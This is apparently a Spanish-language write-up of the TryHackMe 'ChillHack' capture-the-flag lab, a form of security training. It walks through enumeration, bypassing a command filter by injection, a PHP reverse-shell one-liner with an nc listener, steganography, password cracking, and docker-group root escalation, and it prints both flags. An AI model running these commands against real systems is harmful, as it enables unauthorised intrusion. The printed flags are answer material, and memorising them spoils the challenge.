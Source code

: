 # ChillHack
Máquina resuelta de *TryHackMe* en la que se trabaja la enumeración y *fingerprinting*, *reverse shell* y la escucha de puertos, esteganografía y la escalada de privilegios.
<div>
  <img src="https://img.shields.io/badge/-Kali-5e8ca8?style=for-the-badge&logo=kalilinux&logoColor=white" />
  <img src="https://img.shields.io/badge/-Nmap-6933FF?style=for-the-badge&logo=nmap&logoColor=white" />
  <img src="https://img.shields.io/badge/-Dirsearch-005571?style=for-the-badge&logo=dirsearch&logoColor=white" />
  <img src="https://img.shields.io/badge/-php-777BB4?style=for-the-badge&logo=php&logoColor=white" />
  <img src="https://img.shields.io/badge/-Bash-4EAA25?style=for-the-badge&logo=gnubash&logoColor=white" />
  <img src="https://img.shields.io/badge/-python-3776AB?style=for-the-badge&logo=python&logoColor=white" />
  <img src="https://img.shields.io/badge/-Netcat-F5455C?style=for-the-badge&logo=netcat&logoColor=white" />
  <img src="https://img.shields.io/badge/-steghide-FF5200?style=for-the-badge&logo=steghide&logoColor=white" />
  <img src="https://img.shields.io/badge/-unzip-000000?style=for-the-badge&logo=unzip&logoColor=white" />
  <img src="https://img.shields.io/badge/-zip2john-EBAF00?style=for-the-badge&logo=zip2john&logoColor=white" />
  <img src="https://img.shields.io/badge/-john-F4B942?style=for-the-badge&logo=john&logoColor=white" />
</div>

## Objetivo

Explicar la realización del siguiente _Capture the flag_ perteneciente a la plataforma *TryHackMe*. Este desafío . Para ello, se deberá interactuar con un formulario, penetrar en la máquina y realizar una escalada de privilegios.

## Que hemos aprendido?

- Realizar *fingerprinting* y enumeración de puertos y enumeración web.
- Realizar una conxexión FTP.
- Realizar una *reverse shell*.
- Poner en escucha los puertos de la máquina.
- Obtener una *shell* a partir de un *script*.
- Crear un servidor con *python3*.
- Obtener información oculta en imágenes.
- Descomprimir archivos.
- Crackear contraseñas.
- Escalada de privilegios.

## Herramientas utilizadas

- *Kali Linux*.
- Enumeración: *Nmap*, *Dirsearch*.
- Penetración: *FTP*, *Bash*, *PHP*, *Netcat*, *Python3*, *Steghide*,  *Unzip*, *Zip2john*, *John*. 

## Steps

### Enumeración y fingerprinting

La máquina a vulnerar pertenece a la plataforma *TryHackMe*, la propia web te proporciona la IP de la máquina víctima. La conexión a esta se hace mediante una VPN que te proporciona THM y asigna una nueva IP para que tu máquina interactúe con la máquina vulnerable.
El primero paso es lanzar **Nmap** sin *ping* (-Pn) y con los *scripts* por *default* de la herramienta (-sC) para que encuentre vulnerabilidades. Además se quieren conocer las versiones que corren en cada puerto (-sV) y el sistema operativo (-O). No se indica, específicamente, que compruebe todos los puertos pues en este tipo de máquina no será necesario.

<code>nmap -Pn -sV -O 10.10.198.179 -sC</code>

![Captura de pantalla 2025-04-12 174419](https://github.com/user-attachments/assets/b26cb007-7731-455d-a0bb-1105b85ab78b)

El comando devuelve 3 puertos TCPs abiertos:  
- En el puerto 21 corre la versión *vsftpd 3.0.3* del servicio *FTP*. Los *scripts* nos informan de que es posible aaceder al servicio con el usuario 'Anonymous', el cual no necesita contraseña.
- En el puerto 22 corre la versión *Openssh 8.2p1*, en un sistema *Ubuntu*, servicio *SSH*.  
- En el puerto 80 corre el servidor *Apache 2.4.41*, en un sistema *Ubuntu*, servicio *HTTP*.

Primero nos dirigimos, desde el navegador, al puerot 80 de la IP dada, donde se puede ver una página web de deportes. Después de inspeccionarla y navegar por ella, no se encuentra ninguna pista para la explotación.

Seguidamente, con la ayuda de la herramienta **Dirsearch**, se hace una enumeración de posibles directorios y archivos que se encuentren en la web. Por la parte de directorios, aparecen varios pero llama la atención '/secret/', al cual nos dirigiremos primero. *Dirsearch* es lanzado con **Python3** indicando la IP a atacar (-u) y la lista a utilizar para la enumeración (-w); en este caso la 'directory-list-lowercase-2.3-small.txt'.

<code>sudo python3 /usr/lib/python3/dist-packages/dirsearch/dirsearch.py -u 10.10.198.179 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt</code>

![Captura de pantalla 2025-04-12 183016](https://github.com/user-attachments/assets/5d917c94-9d13-4a58-8966-c37cae458572)

En el directorio '/secret' se encuentra un panel de comandos el cual tiene una *blacklist* por medio de la cual está filtrando e impidiendo utilizar una serie de palabras. Cada vez que salta este filtro, se muestra una imagen de alerta y un mensaje preguntando '¿eres un hacker?'. Después de realizar varias pruebas, se ha comprobado que hay maneras de saltarse el filtro como concatenando un comando válido con otro por medio de ';'. U ofuscando paalbras, cambiando caracteres por el signo de interrogació, por poner un ejemplo.

### Vulnerabilidades explotadas

Por una parte, se realiza la conexión *FTP* indicando la IP de la víctima, donde se encuentra un documento donde se mencionan 2 posibles usuarios del sistema 'Anurodh' y 'Apaar', e informa del filtrado que ya se ha comprobado en el formulario anterior: *Anurodh told me that there is some filtering on strings being put in the command -- Apaar*.

<code>ftp 10.10.198.179</code>

![Captura de pantalla 2025-04-12 175910](https://github.com/user-attachments/assets/5c4f80d6-b28d-424f-b830-a074bf2a182b)

Como se comentaba en el anterior apartado el panel de comandos no permite según que palabras, tales como  <code>cat</code> o <code>ls</code>. Por todo esto, lo más cómodo será realizar una **reverse shell**. Así que antes se pretende comprobar si dispone de la herramienta de **php** la máquina, para realizar el ataque con esta. Concatenando los siguiente comandos se consigue una respuesta positiva.

<code>pwd;php --version</code>

Con todo esto solo es necesario habilitar un puerto en escucha de la máquina atacante como se ha hecho en otras ocasiones. Y visistar la página de [*Pentestmonkey*](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) para obtener el código *php* para la *reverseshell* que se introducirá en el panel.

<code>nc -lvnp 1234</code>

<code>pwd;php -r '$sock=fsockopen("10.23.92.113",1234);exec("/bin/sh -i <&3 >&3 2>&3");'</code>

![Captura de pantalla 2025-04-13 205517](https://github.com/user-attachments/assets/9e321c4d-87e2-4b48-9847-503742a49d91)

Hecho esto se consigue una *shell* y se comprueba que somos el usuario 'www-data'. En el directorio '/home' aparecen 3 usuarios, de los cuales se tiene acceso a la carpeta de 'apaar'. Dentro de esta, se encuentra el archivo oculto '.helpline.sh', el cual es un *script* que pide introducir el nombre de la persona con la que quieres hablar y el mensaje que le quieres dejar. Puesto que no se sanitizan las posibles entradas por teclado, esto se puede utilizar para hacer aparecer la *shell* de Apaar y de esta manera obtener acceso a su usuario.
Para ello se ejecuta el archivo con la ruta absoluta y con el usuario 'apaar'. Para que al provocar la *shell*, esta sea la de este usuario. Esto mismo se consigue introduciendo como respuesta a las preguntas del código <code>/bin/bash</code>.

<code>sudo -u apaar /home/apaar/.helpline.sh</code>

Una vez hecho esto se comprueb el usuario alcanzado y su id.

![image](https://github.com/user-attachments/assets/45d7d820-8d96-442d-9c63-f16b6a56bee9)

Ahora ya se tienen los suficientes permisos para leer el archivo 'local.txt' (/home/apaar) donde se encuentra la primera de las *flags*.

**Flag: {USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}**

A continuación se inspecciona el contenido del directorio '/var/www/files' en el cual hay un archivo *php* llamado 'hacker.php' que se puede ejecutar con el usuario Apaar. En este se nombra la imagen 'hacker-with-laptop_23-2147985341.jpg' y nos induce a analizarla más allá de lo que pueda mostrar a simple vista. Una referencia clara a buscar información oculta en la imagen por medio de esteganografía.

![Captura de pantalla 2025-04-13 213653](https://github.com/user-attachments/assets/52295999-99d8-499c-8ef8-48722fa0706f)

Así pues, primero se debe descargar la imagen creando un servidor desde la carpeta contenedora de la imagen con el módulo *http.server*, de **Python3**. Se indica el puerto en el que se hospedará el servidor y desde el navegador se puede comprobar la creación del servidor y la existencia de la imagen y el resto de archivos del directorio en cuestión.

<code> python3 -m http.server 8000</code>

![Captura de pantalla 2025-04-13 214254](https://github.com/user-attachments/assets/a45013b7-436a-4c73-a04e-4758747414f1)

Desde la máquina atacante se procede a descargar el *jpg*, indicando la dirección del recurso. Seguidamente se extrae la información de la imagen con la herramienta **Steghide**, la cual vuelca los datos en el archivo 'backup.zip'. Este se puede descomprimir con la herramienta **unzip** pero está protegido con contraseña, por lo que será necesario encontrar esta primero. Inicialmente se saca el *hash* del archivo con el binario **zip2john** y después se trabajará con este.

<code>wget http://10.10.118.151:8000/hacker-with-laptop_23-2147985341.jpg</code>

<code>steghide extract -sf hacker-with-laptop_23-2147985341.jpg </code>

<code>unzip backup.zip</code>

<code>zip2john backup.zip > pwd</code>

![Captura de pantalla 2025-04-13 215809](https://github.com/user-attachments/assets/0a35f730-e470-4fd8-954f-b27e4078ad1d)

Con **John** se prueban las diferentes palabras de la lista 'rockyou.txt' con el archivo 'pwd' que contiene el *hash* antes obtenido. Finalmente, la herramiensta encuentra la contraseña siendo esta 'pass1word'. Ahora ya se puede descomprimir el *zip* indicándole la *password* encontrada con el cual conseguimos el archivo 'source_code.php'. 

<code>john --wordlist=/usr/share/wordlists/rockyou.txt pwd</code>

![Captura de pantalla 2025-04-13 220330](https://github.com/user-attachments/assets/3652c4fd-c63c-444b-9d21-7608617a8926)

En el código se puede ver como en una sentencia *if* iguala una contraseña con su forma en base64 para entrar dentro de la condición. Por lo que se intentará decodificar tal *password* con el siguiente comando.

<code>echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d</code>

![Captura de pantalla 2025-04-13 220539](https://github.com/user-attachments/assets/3a1d4338-44cc-40d6-909c-a95dc6a3773c)

Una vez obtenida la contraseña (*!d0ntKn0wmYp@ssw0rd*), se prueba con el usuario 'anurodh' y se pivota de nuevo de usuario. Además se comprueba que este pertenece al grupo *docker*, por lo que será útil para la escalada de privilegios. Esto es así porque este grupo otorga prácticamente permisos de administrador (*root*), puesto que el *daemon* de *Docker* tiene acceso completo al sistema. Así que cualquiera que esté en ese grupo podría, indirectamente, hacer cosas como *root*.

Por lo que se pretenden ver las imágenes del *Docker*, que son como plantillas para crear contenedores. De las dos existentes nos quedamos con la más reciente *Apline*. Con esto se puede ir a la página [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) para *bypasear* el binario *Docker* y realizar la escalada de privilegios.

<code>docker images</code>

<code>docker run -v /:/mnt --rm -it alpine chroot /mnt sh</code>

Finalmente, se ha alcanzado el usuario *root* y solo queda dirigirse a su directorio y obtener la *flag* del archivo 'proof.txt'.

![Captura de pantalla 2025-04-13 221157](https://github.com/user-attachments/assets/3a5ccc6e-22a7-44e0-8cdd-bec5a8c2c76b)

**Flag:{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}**
